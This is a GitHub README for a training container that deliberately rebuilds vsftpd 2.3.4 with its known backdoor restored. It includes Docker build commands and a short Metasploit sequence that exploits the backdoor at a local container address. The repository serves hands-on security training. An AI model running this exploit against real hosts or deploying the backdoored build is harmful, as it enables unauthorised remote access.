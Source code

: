 # vsftpd-2.3.4-container
Alpine Linux based container image with a vulnerable version of vsftpd-2.3.4 for use in cybersecurity training environments. Supports both amd64 and armv8 architectures.

## Changes to source code

Downloaded official source code from: https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz

The official source release of 2.3.4 (above link) doesn't have the vulnerable backdoor and I couldn't find an official source for it.

However I did find another Github user's repo with the infected version: https://github.com/nikdubois/vsftpd-2.3.4-infected/commit/e084c9543947d9509ea74731adca427418604cc2 which I've incorporated into `str.c` and `sysdeputil.c` in order to make it exploitable using msf. 

Other changes are made to source to make it build with the Alpine C library, [musl](https://en.m.wikipedia.org/wiki/Musl), in the Dockerfile during container image build.

## Use my published image from docker hub

```
docker run --name vsftpd-2.3.4 -it clintmint/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Exploiting with msf

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
exploit
````

## Docker build & run

```
git clone https://github.com/clintmint/vsftpd-2.3.4-container.git
cd vsftpd-2.3.4-container
docker build -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
docker run --name vsftpd-2.3.4 -it <docker-hub-username>/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Multi-architecture build and push for linux/amd64 (Intel/AMD CPUs) and linux/arm64 (for Macs using M1 chip)

```
docker login
docker buildx create --use
docker buildx build --platform linux/amd64,linux/arm64 --push -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
```
